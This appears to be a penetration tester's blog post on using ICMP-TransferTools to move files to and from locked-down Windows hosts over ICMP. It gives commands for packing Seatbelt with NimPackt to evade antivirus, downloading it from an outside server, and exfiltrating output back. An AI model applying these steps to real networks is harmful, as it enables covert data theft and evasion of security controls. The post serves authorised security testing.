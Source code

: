 ## Transferring Files over ICMP in Restricted Network Environments

### Background (Inspiration & WHY???)
Being able to transfer files to and from a system can sometimes make or break a penetration test. If we are unable to download the tools we need or exfiltrate useful data, the tests we can run are very limited. This happens most frequently when we are provided with a virtual desktop via something like Citrix, VMWare Horizon Client, or AWS Workspaces. These workstations are often locked down as much as possible to prevent us from being able to do much, particularly move data on and off the system.

Most recently, my team had a penetration test a couple of months ago where this was the case. We were given access to a virtual desktop via Citrix that had a very locked down network, allowing no outbound access via conventional protocols like HTTP, FTP, SSH, and even DNS. The only protocol that was allowed outbound access was ICMP, in which I discovered that there were few solutions online that allowed for transferring files over it. Many of the tools/solutions that did exist were not compatible with Windows, and the ones that were had many significant drawbacks, such as requiring compiled binaries to be dropped to the disk (how?) or only being able to transfer files off the system and not to it.

This is the scenario that led me to create [ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools), a collection of scripts designed to move files to and from Windows hosts in restricted network environments. This is accomplished using a total of 4 different files, consisting of a python server and PowerShell client for each transfer direction (Download & Upload). This guide will cover how to use these scripts so that we will hopefully never get stuck again during penetration tests where the network is locked down and ICMP is available.

---
### Part 1: How does it work?

As stated above, [ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools) contains two scripts for each transfer direction: one script that will send the desired file and another that will receive it. The script that is responsible for sending the desired file will first split the file into blocks of 1000 bytes each, and then send those blocks to the receiving script one at a time over ICMP. The receiving script will take the blocks as they come and save them to an output file. See below for how this process works in action as seen by Wireshark.

![alt text](https://i.imgur.com/6C9RvZu.png)

---
### Part 2: Transferring Files to a Windows Host via ICMP

[ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools) includes two scripts that enable the transfer of a remote file onto a Windows host in a restricted network environment. The first is ICMP-SendFile.py, which is the script that hosts the file and sends it to the client. This script is designed to run on a public facing Linux server as root. The other is Invoke-IcmpDownload.ps1, which is the client that will reach out to the Linux server and download the file to the Windows host over ICMP.

Now you may be wondering, “How do we get the client script onto the Windows host if we are unable to transfer files without it?”. This is a great question and something I had to considering when writing these scripts. The answer is simple, we will just type it out in notepad or PowerShell ISE and then save it to the disk. This isn’t ideal, however there aren’t really any other options. I have optimized the script to be as small as possible (35 lines of code), so it really shouldn’t take more than 10 minutes to type it out. This will be the only script we have to type out like this, as we can use it to download anything that we’d need going forward, including the other PowerShell client used to exfiltrate files off the system.

![alt text](https://i.imgur.com/X3Q0mMZ.png)

Once we have our PowerShell script on the Windows host, we need to start the Python script on our Linux server to stage the file we want to download. See below for the script’s usage:

```
usage: ICMP-SendFile.py [-h] [-v] [-b 1000] source destination file

ICYGUIDER'S ICMP FILE DOWNLOAD SERVER

positional arguments:
  source                Public IP address of current host
  destination           Public IP address of destination host
  file                  File to transfer over ICMP

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosely print progress
  -b 1000, --block-size 1000
                        Size of each block (Default: 1000)
```

As you might notice, one of the required arguments is the public IP address of the destination host. Given that we will be using this script in a restricted network environment, we can’t simply go to a website to retrieve our public facing IP as we would normally. Since we only have outbound access via ICMP, we can send some pings to our Linux server in order to view the public IP of our Windows host. This can be done by using tcpdump like so:

Run on Linux server:
```
tcpdump icmp
```

Then ping the Linux server from the Windows client:
```
ping -n 1 ServerIPAddress
```

![alt txt](https://i.imgur.com/xHvmEOL.png)

Now that we have our Windows host’s public IP address, all we need to do is pick what file we want to send over to it. For this demo I’ll be using Seatbelt, as it has many useful features for enumerating a Windows host. We can’t simply use it as is however, as a real-world environment would definitely have some sort of Antivirus or EDR in place that would block and delete our file as soon as it is downloaded. To mitigate this while staying within the realm of open-source tooling, I will be packing Seatbelt using Cas van Cooten’s newly released Nim packer [NimPackt](https://github.com/chvancooten/NimPackt-v1). Big shout out to him for this awesome project!
```
python3 NimPackt.py -e execute-assembly -i bins/Seatbelt.exe -o Seatbelt -S -v --nosyscalls
```

![alt txt](https://i.imgur.com/seq1MAN.png)

We can then upload the packed Seatbelt file to our Linux server and place it in the same directory where our ICMP-TransferTool scripts live. We are now ready to run the ICMP-SendFile.py script, giving it our server’s IP, the Windows host’s public IP, and our packed exe file:
```
./ICMP-SendFile.py ServerIPAddress ClientIPAddress Seatbelt.exe
```

![alt txt](https://i.imgur.com/Swbrrjg.png)

As seen in the screenshot above, the python file will give us the exact command we need to run once we’ve imported our PowerShell client script. The usage for the PowerShell client is as follows:
```
Invoke-IcmpDownload PublicIPAddressOfServer FileToDownload
```

Once we run the PowerShell client, we can see that it will connect to our python server and begin the download process. After a few seconds/minutes (depending on the file size), we will see the script complete, and our file will have been successfully downloaded to the Windows host over ICMP.

![alt txt](https://i.imgur.com/tbSPibw.png)

*NOTE: The ICMP-SendFile.py script has an optional argument (-b) that allows the user to specify how much data is sent in each individual ICMP request. It is advised to leave this at its default value as it really shouldn’t need to be changed in most situations. If for some reason you are noticing that your client has trouble downloading files, try specifying a lower number to this parameter as your client may be limiting the size of ICMP packet that you can send. The default size of ping data is 32 bytes, so it may be best to start with that if you are having issues.

---
### Part 3: Transferring Files from a Windows Host via ICMP

Now that we can download files and run our tools, we might want to exfiltrate the output of our tools or other sensitive data back to our Linux server for further use. This can be accomplished with ICMP-TransferTools’s included ICMP-ReceiveFile.py and Invoke-IcmpUpload.ps1 scripts. Like the previous two scripts we used to download files, the python server needs to be executed first on our Linux server as root to listen for ICMP requests. The PowerShell script can then be loaded on the Windows host and executed to upload the desired file to the Linux server.

Since we already have a way to download files to our Windows host over ICMP, we can simply download our new PowerShell client the same way we did with Seatbelt.

![alt txt](https://i.imgur.com/AzbiwP7.png)

With our PowerShell client that can upload via ICMP now on our Windows host, we will use Seatbelt to generate a report that we will upload to our Linux server for our demo.
```
.\Seatbelt.exe -group=remote -outputfile="out.txt"
```

![alt txt](https://i.imgur.com/9UiFpE8.png)

We now have to start the ICMP-ReceiveFile.py script on our Linux sever so that it is ready to accept requests from our client. Its usage can be found below:
```
usage: ICMP-ReceiveFile.py [-h] src file

ICYGUIDER'S ICMP FILE UPLOAD SERVER

positional arguments:
  src         Public IP Address of client
  file        File to write data to

optional arguments:
  -h, --help  show this help message and exit
```

You will notice that we again need to provide the public IP address of our Windows host. This is needed to prevent the python script from accepting pings requests coming from hosts other than our client. We will now execute the python script like so:
```
./ICMP-ReceiveFile.py ClientIPAddress out.txt
```

![alt txt](https://i.imgur.com/uSmLnss.png)

With the python script now listening for requests, we can load and execute our PowerShell client on the Windows host. The usage for this script is as follows:
```
Invoke-IcmpUpload PublicIPAddressOfServer FileToUpload
```

After running the PowerShell client, we can see that it connects to our python server and begins the upload process. After a few seconds/minutes (depending on the file size), we will see the script complete, and our file will have been successfully uploaded to our Linux server over ICMP.

![alt txt](https://i.imgur.com/9D723aO.png)

---

### Part 4: The End!


I hope you all enjoyed this blog post. Please feel free to reach out to me if you have any questions. Also, while I’ve tried to make these scripts as reliable as possible and think I’ve been relatively successful in doing so, you still might occasionally receive some unexpected behavior. Such is life when using ICMP as a data transfer protocol (lol). If you have any ideas of how these scripts can be improved, I’d be more than grateful for any pull requests made to the GitHub project. Thanks so much!

Credits/Greetz:
* [Bernardo Damele](https://github.com/bdamele) for [icmpsh](https://github.com/bdamele/icmpsh)
* [Cas van Cooten](https://github.com/chvancooten) for [NimPackt](https://github.com/chvancooten/NimPackt-v1)
